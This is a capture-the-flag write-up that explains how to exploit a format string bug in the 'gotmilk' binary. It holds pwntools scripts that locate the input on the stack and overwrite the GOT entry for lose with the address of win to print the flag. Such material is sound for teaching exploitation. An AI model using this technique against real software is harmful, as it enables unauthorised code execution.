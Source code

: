 # Got Milk Exploit
Connor Onweller and Sophia Freaney

## Exploring
We've got the following files:

```
7got_milk
├── gotmilk
└── libmylib.so
```
We have a library `libmylib.so` and an executable called `gotmilk`.

We probably need do something with that library, but let's ignore it for now and try
and run `gotmilk`:

```sh
./gotmilk
```

When we do this, we get the following error:
```
./gotmilk: error while loading shared libraries: libmylib.so: cannot open
shared object file: No such file or directory
```

So we need to specify the library path so the executable can find
`libmylib.so`. We can do this with:

```sh
export LD_LIBRARY_PATH=.
```

Now if we run `./gotmilk` we get the following output:

```
Simulating loss...

No flag for you!
Hey you! GOT milk? Yes please
Your answer: Yes please

No flag for you!
```

We don't GOT milk. :(

Now let's use `ltrace` to see whats going on. This will show us
what library functions are being called in the executable, and what arguments
are passed into them.

```sh
ltrace ./gotmilk
```

This gives us the following output:

```
__libc_start_main(0x80485f6, 1, 0xffc4cee4, 0x80486d0 <unfinished ...>
setvbuf(0xf7ebed20, 0, 2, 0)                                                                                  = 0
setvbuf(0xf7ebe580, 0, 2, 0)                                                                                  = 0
setvbuf(0xf7ebec80, 0, 2, 0)                                                                                  = 0
puts("Simulating loss..."Simulating loss...
)                                                                                    = 19
lose(0, 0xca0000, 1, 0xf7f0a800
No flag for you!
)                                                                              = 18
printf("Hey you! GOT milk? "Hey you! GOT milk? )                                                                                 = 19
fgets(A lil... as treat
"A lil... as treat\n", 100, 0xf7ebe580)                                                                 = 0xffc4cdcc
printf("Your answer: "Your answer: )                                                                                       = 13
printf("A lil... as treat\n"A lil... as treat
)                                                                                 = 18
lose(0, 0xca0000, 1, 0x696c2041
No flag for you!
)                                                                              = 18
+++ exited (status 0) +++
```

From this, we see 2 notable things:

1. There's a `lose` function in `libmylib.so` which prints `No flag for you!`. We
   should checkout this library to see what else there is
2. It looks like our inputted string is passed directly into a `printf`
   statement, meaning there might be a format string vulnerability

### What's boppin in libmylib.so?

To see what functions `libmylib.so` contains, we can run `rabin2`,
which is a binary program info extractor. When we pass the `-s` flag into
the command, we specify that we want to get back a list of export symbols from
the binary.

```sh
rabin2 -s libmylib.so
```

From the output we can see there's a `lose` function and a `win` function:

```
10   0x000011f8 0x000011f8 GLOBAL FUNC   49       lose
11   0x00001189 0x00001189 GLOBAL FUNC   111      win
```

This win function probably `cat`s the contents of some file or something
similar. We should now look for relevant strings that might contain a filename with
the following:

```sh
rabin2 -z libmylib.so
```

Output:

```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002002 0x00002002 8   9    .rodata ascii flag.txt
1   0x0000200b 0x0000200b 17  18   .rodata ascii \nNo flag for you!
```

The filename is `flag.txt`. Since we don't have this file already we can
make one:

```sh
echo My bones > flag.txt
```

# What's going on with all this printf stuff?

Now we want to see if the 2nd call `printf` is printing our inputted string
directly. We can test it out by trying to pass it some `printf` flags in our
text.

With the following input:

```
Hey you! GOT milk? %x %x %x
```

We get this output:
```
Your answer: 64 f7f6f580 804866f
```

Look's like we got a format string vulnerability.

This means that, since we're already able to push to the stack with the our
input, we can likely write anywhere in memory by exploiting this `printf` call.
This is because `printf` accepts the flag `%n`, which will write the number of
characters printed thus far to the address argument associated with the flag.

For example, consider the following code:

```c
int main(int argc, char ** argv) {
    int a;
    printf("123%n", &a);    // will print 123
    printf("&d", a);        // will print 3
    return 0;
}
```

The value 3 will be written to `a` since 3 characters were printed before the
`%n` in the first `printf` statement.

This is useful for us, since it means we can overwrite values stored anywhere
in memory with the number of characters printed so far. In our case we probably
want to overwrite the `lose` function to execute the `win` function.

To do so, we need to overwrite the value stored in the GOT for `lose` with
address of the `win` function.

> **Note:** the GOT is the Global Offset Table. It is used the dynamic linking
> process to help us find where linked symbols are.

Now all we have to do is figure out where the `GOT` entry for `lose` is, what
the address for `lose` and `win` are in our library file, and overwrite the
`GOT` entry for `lose` to contain the address of `win`.

## Lets start pwning

First we will find where our input is going on the stack, so we know which
argument will contain the address of the `lose` entry we want to pass to `%n`
in our print statement. We can do this by printing a bunch of `A`s followed by
some flags and try to find which argument our `A`s are:

```python
from pwn import *

payload = b"A"*10

for i in range(1,11):
    payload += f" {i}:%x".encode()

p = process('./gotmilk')
p.sendline(payload)
print(p.recv())
```

This prints the following string:

```
1:64 2:f7f33580 3:804866f 4:0 5:ca0000 6:1 7:41414141 8:41414141 9:31204141 10:2078253a
```

It looks like the `A`s are the 7th argument (A in binary is 41)

Now we need to figure out what the address of `win` and `lose` are in the
library:

```python
from pwn import *

lib = ELF('./libmylib.so')

print(hex(lib.symbols['lose']))  # 0x11f8
print(hex(lib.symbols['win']))   # 0x1189
```

It looks we'll just have to overwrite the last part of `lose`'s address to be
`89` instead of `f9`.

To do this, we first need to get the address of the `GOT` entry of
`lose`, then we need to overwrite the last byte of `lose` to be `89` instead of
`f9`:

```python
from pwn import *

elf = ELF('./gotmilk')

lose_got = elf.got['lose']
pad_sz = 0x89 - 4  # minus 4 since lose_got address is 4 bytes
arg_loc = 7


payload = p32(lose_got)
payload += f"%{pad_sz}x".encode()  # We need to pad our print with enough
                                   # characters so that we print 0x89 characters

payload += f"%{arg_loc}$hhn".encode()  # We say hhn instead of n to specify we
                                       # only want to write 1 byte, not 4

p = process('./gotmilk')
p.sendline(payload)
print(p.recv())
```

Output:

```
Out[1]: b'Simulating loss...\n\nNo flag for you!\nHey you! GOT milk? Your answer: \x10\x
a0\x04\x08
                                                     64\nMy bones\n'
```

Ladies and gentleman... we got milk.
